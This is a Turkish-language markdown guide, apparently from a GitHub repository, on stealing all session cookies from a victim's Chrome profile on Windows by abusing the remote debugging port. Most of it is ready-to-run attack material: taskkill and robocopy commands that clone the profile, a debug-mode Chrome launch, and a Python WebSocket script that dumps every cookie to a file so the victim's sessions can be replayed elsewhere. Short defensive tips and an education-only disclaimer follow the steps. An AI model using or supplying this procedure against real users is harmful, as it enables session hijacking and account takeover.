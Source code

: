 # Chrome Debug Mod | Cookie Stealing (Windows)

## Amaç

Kurbanın aktif olarak oturum açtığı bir Chrome profilini, `--remote-debugging-port` özelliğiyle kontrol altına alarak **tarayıcı içerisindeki tüm çerezleri programatik olarak ele geçirmek**.

Bu teknik, local erişimi olan bir saldırgan tarafından veya kötü amaçlı bir script ile **şifrelenmemiş profiller üzerinde** uygulanabilir.

---

## Teorik Arkaplan

Google Chrome, geliştiricilerin tarayıcı ile etkileşim kurabilmesi için `--remote-debugging-port=<port>` parametresi ile başlatıldığında DevTools üzerinden WebSocket arayüzü sunar. Bu port üzerinden:
- Sekmeler kontrol edilebilir
- HTTP istekleri izlenebilir
- Çerezler (`Network.getAllCookies`) dahil birçok hassas veriye erişilebilir

---

## Ön Koşullar

- Kurbanın Chrome profiline **fiziksel veya sistem düzeyinde erişim**
- Chrome şifresiz başlatılmalı (profil şifrelenmemeli)
- Profilin aktif olduğu Google hesabında oturum açık olmalı

---

## Adımlar

### 1. Chrome Profilini Kopyala

```cmd
taskkill /F /IM chrome.exe

robocopy "%LOCALAPPDATA%\Google\Chrome\User Data\Default" "%USERPROFILE%\Desktop\ChromeTemp\Default" /MIR /XJ
```

> Aktif kullanıcı profilini yeni bir dizine (örneğin: `ChromeTemp`) klonluyoruz.

---

### 2. Chrome’u Debug Modda Başlat

```cmd
start "" "C:\Program Files\Google\Chrome\Application\chrome.exe" ^
--user-data-dir="%USERPROFILE%\Desktop\ChromeTemp" ^
--profile-directory="Default" ^
--remote-debugging-port=9222 ^
--no-first-run ^
--no-default-browser-check
```

> Chrome arka planda açılır ve 9222 portu üzerinden dış bağlantılara hazır hale gelir.

---

### 3. DevTools JSON Endpoint’ine Eriş

Tarayıcı veya komut satırı üzerinden erişim:

```bash
curl http://localhost:9222/json
```

Dönen cevap örneği:

```json
[
  {
    "id": "C123",
    "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/C123",
    ...
  }
]
```

Bu WebSocket adresi kullanılarak tarayıcıya komut gönderilebilir.

---

### 4. Python ile Cookie’leri Çek

```python
import asyncio, websockets, json, requests

async def get_all_cookies():
    resp = requests.get("http://localhost:9222/json")
    targets = resp.json()
    ws_url = targets[0]["webSocketDebuggerUrl"]

    async with websockets.connect(ws_url) as ws:
        await ws.send(json.dumps({"id": 1, "method": "Network.enable"}))
        await ws.send(json.dumps({"id": 2, "method": "Network.getAllCookies"}))

        while True:
            msg = await ws.recv()
            data = json.loads(msg)
            if data.get("id") == 2:
                with open("cookies.json", "w") as f:
                    json.dump(data["result"]["cookies"], f, indent=2)
                print("[+] Çerezler kaydedildi.")
                break

asyncio.run(get_all_cookies())
```

---

## Elde Edilen Veriler

`cookies.json` dosyasına, aşağıdaki formatta tüm sekme ve alanlardan toplanmış oturum çerezleri gelecektir:

```json
[
  {
    "domain": ".github.com",
    "name": "user_session",
    "value": "gho_example_token",
    "httpOnly": true,
    "secure": true
  }
]
```

Bu çerezler, tarayıcı uzantıları (örneğin: Cookie Editor) kullanılarak başka bir tarayıcıda içe aktarılıp **kullanıcının oturumu çalınabilir.**

---

## Güvenlik Önlemleri

Kendinizi bu tür saldırılara karşı korumak için:

- Chrome profilinizin şifreli kullanıcı hesabı altında olması (BitLocker, disk şifreleme)
- Chrome profiline fiziksel erişimi sınırlamak
- Tarayıcınızda güvenli oturum yönetimi ve 2FA kullanmak
- Arka planda çalışan Chrome süreçlerine dikkat etmek

---

## Gerçek Dünya Senaryosu

Bir Red Team testi sırasında, fiziksel erişimi olan bir danışman aşağıdaki zinciri kullandı:

- Hedefin tarayıcısı kapalıyken `Default` profili USB’ye klonlandı
- Klonlanmış profille offline ortamda Chrome debug modda başlatıldı
- Çerezler çekilerek kritik web sistemlerine yeniden oturum açma sağlandı (token reuse)

---

## Sonuç

Chrome’un debug portu özelliği, saldırganlar için güçlü bir araç olabilir. Özellikle fiziksel ya da sistem düzeyi erişim olduğunda, oturum çerezlerinin tamamına erişmek mümkündür. Bu teknik:

- Tarayıcı içi oturumların ele geçirilmesi  
- Red Team iç testleri  
- Geliştirici/sızma testçisi için local analiz için pratik ve hızlı bir yöntemdir.

---

## Uyarı

> Bu yazı yalnızca eğitim ve sızma testi (penetrasyon testi) amaçlıdır. İzinsiz sistemlere uygulanması **suç teşkil eder.**

